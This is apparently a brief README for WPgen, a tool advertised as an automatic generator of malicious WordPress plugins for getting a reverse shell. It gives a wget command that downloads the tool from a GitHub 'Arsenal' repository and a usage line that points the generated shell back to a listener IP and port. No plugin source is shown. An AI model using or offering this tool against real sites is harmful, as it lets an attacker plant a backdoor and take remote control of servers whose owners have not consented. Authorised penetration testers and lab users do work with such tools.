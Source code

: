 # **WPgen**

#### **WPgen** is an automatic malicious plugin generator for **WordPress**, get a reverse shell in a simple and fast way.

![](/WPgen/img/screenshot.png)

---

## Download

```sh
wget --no-check-certificate -q "https://raw.githubusercontent.com/VulNyx/Arsenal/refs/heads/main/WPgen/WPgen" && chmod +x WPgen
```

## Usage

```sh
WPgen -l 192.168.1.X -p 443
```

![](/WPgen/img/usage.png)

---
